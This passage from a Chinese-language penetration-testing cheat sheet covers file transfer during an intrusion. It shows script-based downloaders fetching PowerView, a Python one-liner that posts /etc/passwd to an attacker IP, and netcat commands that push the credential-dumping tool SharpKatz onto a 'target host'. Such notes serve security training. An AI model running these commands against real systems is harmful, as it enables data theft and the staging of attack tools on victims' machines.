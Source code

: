 ```shell
# JavaScript
# 创建 wget.js 文件 内容如下：
    var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
    WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
    WinHttpReq.Send();
    BinStream = new ActiveXObject("ADODB.Stream");
    BinStream.Type = 1;
    BinStream.Open();
    BinStream.Write(WinHttpReq.ResponseBody);
    BinStream.SaveToFile(WScript.Arguments(1));
# 使用 JavaScript 和 cscript.exe 下载文件
cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1

# VBScript
# 创建 wget.vbs 文件 内容如下
    dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
    dim bStrm: Set bStrm = createobject("Adodb.Stream")
    xHttp.Open "GET", WScript.Arguments.Item(0), False
    xHttp.Send

    with bStrm
        .type = 1
        .open
        .write xHttp.responseBody
        .savetofile WScript.Arguments.Item(1), 2
    end with
# 使用 JavaScript 和 cscript.exe 下载文件
cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```

### 2. 上传

```shell
# 启动 Python 上传服务器模块
python3 -m uploadserver 
 python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```

## 四、其他文件传输方法

### 1. Netcat

> * [Netcat](https://sectools.org/tool/netcat/)（通常缩写为`nc`）是一种计算机网络实用程序，用于使用 TCP 或 UDP 读取和写入网络连接

1.  攻击主机连接目标主机

    ```shell
    # 目标主机
    netcat -l -p 8000 > SharpKatz.exe
    # 攻击主机
    netcat -q 0 192.168.49.128 8000 < SharpKatz.exe
